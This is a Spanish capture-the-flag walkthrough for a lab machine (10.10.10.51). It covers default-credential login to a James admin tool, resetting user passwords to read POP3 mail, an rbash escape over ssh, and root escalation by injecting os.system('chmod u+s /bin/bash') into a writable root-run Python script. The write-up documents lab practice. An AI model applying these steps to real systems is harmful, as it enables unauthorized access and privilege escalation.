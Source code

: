 ## Summary

- IP -> 10.10.10.51
- Ports -> TCP (22, 25, 80, 110, 119, 4555), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> SSH 7.4p1 launchpad -> Para ver que distribucion de Linux es
    - 25 -> smtp
    - 80 -> http launchpad -> Para ver que distribucion de Linux es
    - 4555 -> rsip


## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon
- Comando -> **whatweb http://< URL>**  Nos dara una breve descripcion del gestor de contenidos del puerto 80
- Comando -> **nc 10.10.10.51 4555** Nos conectamos al puerto 4555 por netcat, nos muestra un James Remote Administratio Tool 2.3.2, el cual podemos encontar sus default passwd en Internet, este es un servico Apache
- Comando -> **telnet 10.10.10.51 4555** Nos conectamos al puerto 4555 por Telnet y proporcionamos el usuario y passwd por defaul que es root, root
	- **>help**  Nos lista los comandos
	- **>listusers** Listamos los usuarios existentes
	- **>setpassword** Le podemos cambiar el passwd a un usuario existente y asi podernos conectar despues a su correo, por el puerto 110 que tenemos abierto
	- **>quit** Nos salimos del servidor RSIP

- Comando -> **telnet < IP> 110** Nos conectamos a POP3 por medio de Telnet, con un usuario y passwd. 
Comandos cuando nos conectamos
- **USER < Name>** Nombre del usuario a conectar
- **PASS < PASSWD>** Passwd del usuario a conectar 
- **>LIST** Miramos si tiene algun correo y debemos ver minimo **1** 10, por lo que no debemos de ver 0 0 ya que eso dice que no tiene correo 
- **>RETR < NUM>** Le pasamos el primer numero que hayamos encontrado anteriormente y listamos los mensajes que tenga en su bandeja de entrada, si encontramos un **2** quiere decir que hay dos correos, por lo que podemos poner primero **1** y despues el **2** y asi sucesivamente.
- **>QUIT** Nos salimos del servidor POP3

## User
- Comando -> **sshpass -p <'PASSWORD'> ssh < USER>@< IP>** Conectarnos por ssh  y obtenemos acceso al sistema
Buscamos la flag de user.txt en el directorio

Nos damos cuenta que estamos en una restricted bash. (rbash)
- Comando -> **echo $PATH** Miramos el path de la consola Linux
- Comando -> **ls bin/** Para ver que comandos podemos ejecutar 

Cuando estamos en una restricted bash (rbash) podemos meter comandos en el ssh, esto si la restricted bash esta mal configurada:
- Comando -> **ssh < USER>@< IP> < COMMAND>** Conectarnos por ssh , pero antes nos ejecuta un comando, en este caso podemos hacer que nos de una bash. 
	- **bash** -> Podemos colocar bash como comando, podremos interactuar aunque no nos de una pseudo-consola. Pero podemos hacerle el tratamiento y nos dara una:
		- Tratamiento de la consola Linux cuando entras a una maquina victima
			 - **Script /dev/null -c bash** 
			 - **Ctrl + z**
			 - **stty raw -echo; fg**
			 -  **reset xterm**
			- **export TERM=xterm** Para poder hacer Ctrl +c y Ctrl + l (l=ele)
			- **export SHELL=/bin/bash**Hacemos que shell ahora valga bash

Ahora para modificar las dimensiones de nano debemos hacer lo siguiente.
**stty size** Con este comando podemos ver las dimensiones de la consola nano de 24 80 por lo que debemos de modificar ese valor a este
**stty rows 51 columns 189** Modificamos las dimenesiones de la consola nano

## Root
- Comando -> **sudo -l** Ver que permisos tenemos en el sudoers (l=ele)
- Comando -> **find / -perm -4000 2>/dev/null** Buscaremos por privilegios suid, para aprovecharnos de un binario y escalar privilegios
- Comando -> **which getcap** Para ver si esta instalado el Getcap y mirar las capabilities

Cambiamos el Path a uno mas grande, colocando el de nuestra maquina.

Como no obtenemos nada, haremos un archivo .sh para poder ver si hay algun servicio que nos pueda ayudar a escalar privilegios 
- **/dev/shm** Directorio con capacidad de escritura

- Comando -> **nano file.sh**
	#!/bin/bash
	
	function ctrl_c(){
		echo -e "\\n[!] Saliendo \\n"
		tput cnorm; exit 1
	}
		
	\# Ctrl + c
	trap ctrl_c INT
	tput civis
	old_process="\$(ps -eo command)"

	while true; do
		new_process="\$(ps -eo command)"
		diff <(echo "\$old_process") <(echo "\$new_process") | grep "[\>\<]" | grep -vE "command|procmon|kworker
		old_process=\$new_process
	done	

El comando ps nos permite detectar todos los comandos y procesos que se estan ejecuatndo en el sistema

- Comando -> **chmod +x < FILE>** Le cambiamos los permisos a un archivo (r=read, w=write, x=execution, u=user, g=grupo, o=other)

Despues encontramos un archivo que lo esta ejecutando root y otros lo pueden modificar 
- Comando -> **nano /opt/tmp.py**
	os.system('chmod u+s /bin/bash')

Para ir monitoreando el comando hacemos lo siguiente:
- Comando -> **watch -n 1 ls -l /bin/bash** Monitoreamos el comando /bin/bash

Modificando esa parte le diremos que otorgue el privilegio usid a la bash, para que cuando lo ejecute le pondra el s asi: -rw**s**r-xr-x root root 

- Comando -> **bash -p** Para ejecutar la bash con privilegios (p=priviledge) y atentara contra el propietario root

Ahora solo buscamos la flag root.txt
